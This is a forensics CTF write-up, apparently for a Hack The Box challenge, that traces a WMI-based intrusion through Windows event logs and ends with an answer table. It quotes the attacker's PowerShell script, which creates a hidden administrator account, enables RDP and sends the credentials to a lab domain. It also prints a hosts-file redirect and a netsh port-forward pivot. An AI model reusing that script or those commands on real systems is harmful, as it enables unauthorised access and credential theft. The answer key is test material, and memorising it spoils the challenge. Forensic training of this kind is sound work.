## ~ The Enduring Echo (easy) ~

### Detail

LeStrade passes a disk image artifacts to Watson. It's one of the identified breach points, now showing abnormal CPU activity and anomalies in process logs.

```
01. What was the first (non cd) command executed by the attacker on the host? (string)
02. Which parent process (full path) spawned the attacker’s commands? (C:\FOLDER\PATH\FILE.ext)
03. Which remote-execution tool was most likely used for the attack? (filename.ext)
04. What was the attacker’s IP address? (IPv4 address)
05. What is the first element in the attacker's sequence of persistence mechanisms? (string)
06. Identify the script executed by the persistence mechanism. (C:\FOLDER\PATH\FILE.ext)
07. What local account did the attacker create? (string)
08. What domain name did the attacker use for credential exfiltration? (domain)
09. What password did the attacker's script generate for the newly created user? (string)
10. What was the IP address of the internal system the attacker pivoted to? (IPv4 address)
11. Which TCP port on the victim was forwarded to enable the pivot? (port 0-65565)
12. What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings? (HKLM\...\...)
13. What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system? (Txxxx.xxx)
14. Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this? (command)
```

### Solution

#### Question 1: What was the first (non cd) command executed by the attacker on the host?

First of all, we have to investigate the winevt to figure out the attack. I use **EvtxECmd** of Eric Zimmerman

```powershell
EvtxECmd.exe -d "The_Enduring_Echo\C\Windows\System32\winevt\logs" --csv . --csvf output.csv
```

We viewed the parsed CSV file using Timeline Explorer, then filtered for Event ID 4688 (A new process has been created). We continue search "cmd" and we observed a remote execution process where `WmiPrvSE.exe` spawned `cmd.exe` to execute remote commands.

If we see the command line line of event 4688, this computer has enabled the function to allow capturing command line for "new process has been created" event, so we can use it to answer the questions below

 





#### Question 2: Which parent process (full path) spawned the attacker’s commands?

As I said before, `WmiPrvSE.exe` spawned `cmd.exe`. So the answer this full path of it



#### Question 3: Which remote-execution tool was most likely used for the attack?

Based on the evidence, we see that the parent process is `WmiPrvSE.exe` and Command output redirection to network share Administrative share usage (ADMIN$). All of this matches `wmiexec.py`

#### Question 4: What was the attacker’s IP address?

Continue investigate the Security log, we can find the attacker's IP



```powershell
cmd  /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts"
```

Attacker modified the hosts file to redirect domain names to their infrastructure, maybe use for C2.

#### Question 5: What is the first element in the attacker's sequence of persistence mechanisms?

The attacker creates the first persistence mechanism by creating a scheduled task, named `SysHelper Update`. The executed file is `JM.ps1` at `C:\Users\Werni\Appdata\Local\`



#### Question 6: Identify the script executed by the persistence mechanism.

As I explain above, the answer of this question is `C:\Users\Werni\Appdata\Local\JM.ps1`

#### Question 7: What local account did the attacker create?

To find the answer to this question, we filtered event 4720 and looked at the events that occurred during the time of the attack. 


#### Question 8: What domain name did the attacker use for credential exfiltration? 

We can find `JM.ps1` on machine, extracted it and we have can figure out what this file do



```powershell
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

We see that this code create a account on **Administrators** and **Remote Desktop Users** group. After that, send this creds to the attacker's domain `NapoleonsBlackPearl.htb`

#### Question 9: What password did the attacker's script generate for the newly created user?

This code generate the password by merge 2 part: String `Watson_` and value of `$timestamp` which getting date at that time and make it to format `yyyyMMddHHmmss`. We can determine the time by looking the time of creating user `svc_netupd` (4720)



Because my time zone is GMT+7 so the correct time is: 2025-08-24 16:05:09 (UTC Time). And we have the correct password for `svc_netupd` user is `Watson_20250824160509`

#### Question 10: What was the IP address of the internal system the attacker pivoted to?



```powershell
netsh  interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=192.168.1.101 connectport=22
```

This command was executed after event `proxy.bat` file was executed. The attacker created a TCP port forward on the Windows host -  listening on all IPv4 addresses at local port 9999 and forwarding incoming TCP connections to `192.168.1.101:22`. The attacker stored persistent at `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp`

#### Question 11: Which TCP port on the victim was forwarded to enable the pivot?

As I explain... The answer is `9999`

#### Question 12: What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?

As I explain... The answer is `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp`

#### Question 13: What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?

By searching Google, we can find the correct answer is `T1090.001`



#### Question 14: Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this?

We can find the commandline of administrator at Powershell history on `C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`




### Final Answer

| Question | Answer |
|---|----|
| 1. What was the first (non cd) command executed by the attacker on the host?  | systeminfo | 
| 2. Which parent process (full path) spawned the attacker’s commands? | C:\Windows\System32\wbem\WmiPrvSE.exe | 
| 3. Which remote-execution tool was most likely used for the attack? | wmiexec.py |
| 4. What was the attacker’s IP address? | 10.129.242.110 |
| 5. What is the first element in the attacker's sequence of persistence mechanisms? | SysHelper Update |
| 6. Identify the script executed by the persistence mechanism. | C:\Users\Werni\Appdata\Local\JM.ps1 |
| 7. What local account did the attacker create? | svc_netupd |
| 8. What domain name did the attacker use for credential exfiltration? | NapoleonsBlackPearl.htb |
| 9. What password did the attacker's script generate for the newly created user? | Watson_20250824160509 |
| 10. What was the IP address of the internal system the attacker pivoted to?  | 192.168.1.101 |
| 11. Which TCP port on the victim was forwarded to enable the pivot?  | 9999 |
| 12. What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?  | HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp |
| 13. What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?  | T1090.001 |
| 14. Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this? | `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f` |

---

---

---

## ~ The Card (easy) ~

---

---

---

## ~ The Watchman's Residue (medium) ~

---

---

---

## ~ The Tunnel Without Walls (hard) ~

---

---

---

## ~ The Payload (hard) ~